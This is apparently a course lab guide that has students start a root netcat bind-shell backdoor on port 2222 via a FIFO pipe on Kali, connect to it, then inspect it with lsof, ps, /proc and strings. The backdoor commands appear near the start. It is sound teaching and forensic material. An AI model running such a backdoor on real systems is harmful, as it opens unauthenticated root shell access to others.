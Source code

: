![image](https://github.com/user-attachments/assets/068fae26-6e8f-402f-ad69-63a4e6a1f59e)


# Linux CLI

In this lab we will be looking at a backdoor through the lens of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running **three** different Kali terminals.

 > Terminal 1 is where the backdoor will be run.

 > Terminal 2 is where we will connect to the back door.

 > Terminal 3 is where we will be running our analysis.

***

Let’s get started by opening a terminal as **Administrator**, there are a few methods to do this.  

Method 1 is to right click on the desktop and select open. 

![](attachments/OpeningKaliInstance.png)

Method 2 is to simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

On your **Kali** terminal, please run the following command:

<pre>sudo su - </pre>

This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

Next, we will need to create a **FIFO** backpipe:

<pre>mknod backpipe p</pre>

Next, let's start the backdoor:

<pre>/bin/bash backpipe 0&lt;backpipe | nc -l 2222 1>backpipe</pre>

In the above command, we are creating a **Netcat listener** that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the **Netcat listener**. 

On a more basic level, this will create a backdoor listening on port 2222 of our **Linux** system.

Now, let's open another **Kali** terminal.  This terminal will connect to the backdoor we just created.  

Method 1 is to right click on the desktop and select open. 

![](attachments/OpeningKaliInstance.png)

Method 2 is to simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Now we will need to know the IP address of our **linux** system:

<pre>ifconfig</pre>

![](attachments/ifconfigKaliInstance.png)

**REMEMBER - YOUR IP WILL BE DIFFERENT**

Now, let's connect:

<pre>nc 10.10.104.64 2222</pre>

**REMEMBER - YOUR IP WILL BE DIFFERENT**


It can be confusing to tell whether or not you are connected to the backdoor. 

Type a few commands to see if its working:

<pre>ls</pre>

<pre>whoami</pre>

![](attachments/lswhoamiKaliInstance.png)

At this point, we have created a backdoor with one terminal, and we have connected to this backdoor with another terminal.  Now, let's open yet another **Kali** terminal and use this use for the purpose of analysis.  

Let's begin by using one of the two methods used earlier to open a new **Kali** Terminal.  

Method 1 is to right click on the desktop and select open. 

![](attachments/OpeningKaliInstance.png)

Method 2 is to simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt.  When we say root prompt we mean a terminal with the highest level of permission possible.  We want to be in a root prompt because looking at network connections and process information system wide requires root priviledges (or the highest level of priviledges).  

Let's start by looking at the network connections with **lsof**.  When we use **lsof**, we are looking at open files.  When we use the **-i** flag we are looking at the open Internet connections.  When we use the **-P** flag we are telling **lsof** to not try and guess what the service is on the ports that are being used. Just give us the port number.

<pre>lsof -i -P</pre>


![](attachments/lsof-i-pKaliInstance.png)

Now let's dig into the **netcat process ID**.  We can do this with the lowercase **-p** switch.  This will give us all the open files associated with the listed process ID.

<pre>lsof -p [PID]</pre>

# Remember!!!  Your PID will be different!!!

![](attachments/lsof-pKaliInstance.png)

Let's look at the full processes.  We can do this with the **ps** command. We are also adding the **aux switches**.  

aux
* a is for all processes
* u is for sorted users
* x is for all processes using a teletype terminal

Type out this command.

<pre>ps aux</pre>

![](attachments/psauxKaliInstance.png)

Let's change directories into the **proc** directory for that **pid**.  Remember, **proc** is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

<pre>cd /proc/[pid]</pre>

![](attachments/procPIDKaliInstance.png)

We can see a number of interesting directories here:

<pre>ls</pre>

![](attachments/lsKaliInstance.png)

We can run strings on the exe in this directory.  When programs are created there may be usage information, mentions of system libraries, and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

<pre>strings ./exe | less</pre>

![](attachments/strings_exelessKaliInstance.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it directly out of memory!

To reveal more information in the output, press **"enter"**.

![](attachments/netcatusageKaliInstance.png)

***
***Continuing on to the next Lab?***

[Click here to get back to the Navigation Menu](/IntroClassFiles/navigation.md)

***Finished with the Labs?***


Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

[Return To Lab List](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/navigation.md)

---


